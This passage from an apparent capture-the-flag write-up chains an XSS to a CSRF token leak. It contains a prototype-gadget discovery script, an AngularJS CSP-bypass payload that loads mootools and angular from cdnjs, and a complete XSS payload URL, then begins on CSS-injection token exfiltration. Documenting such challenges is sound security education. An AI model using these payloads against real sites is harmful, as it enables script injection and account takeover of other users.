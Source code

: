 ```html
    function checkPrototype(name, prototypeName, prototype) {
      const oldFuncs = protos[name]
      const newFuncs = newProtos[name]
      for(let fnName of newFuncs) {
        if (!oldFuncs.includes(fnName)) {
          const fullName = prototypeName + '.' + fnName
          result.prototypeFunctions.push(fullName)
          try {
            //check if the function return window 
            if (prototype[fnName].call() === window) {
              result.functionsReturnWindow.push(fullName)
            }
          } catch(err) {

          }
        }
      }
    }

    console.log(check())
  </script>
</body>

</html>
```
Result:

![](https://i.imgur.com/wS1Tecm.png)

Now we can use this gadget to achieve XSS:
```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].empty.call().alert([].empty.call().document.domain)}}
</div>
```

This is the final payload to execute XSS on the page:

```
https://www.youtube.com/embed/srcdoc=<script/src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script><script/src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script><div/ng-app/ng-csp>{{[].empty.call().alert([].empty.call().document.domain)}}</div>.png
```

But this is not the end of the challenge because this is considered a Self-XSS and it is not allowed, in order to weaponize this type of attack we need to chain it with a CSRF attack.

## CSRF Token leak via XS-Leak
The CSRF token is successfully validated server-side, but if we find a way to Inject CSS then we can use the CSS Injection to exfiltrare the CSRF Token.
We can find the CSRF token two times inside the file `app.php`:
```html
<head>
    <meta name="csrf-token" content="<?= $csrf_token ?>"> 
</head>
```
And:
```html
<div>
  <input type="hidden" name="csrf-token" value="<?= $csrf_token ?>" />
</div>
```
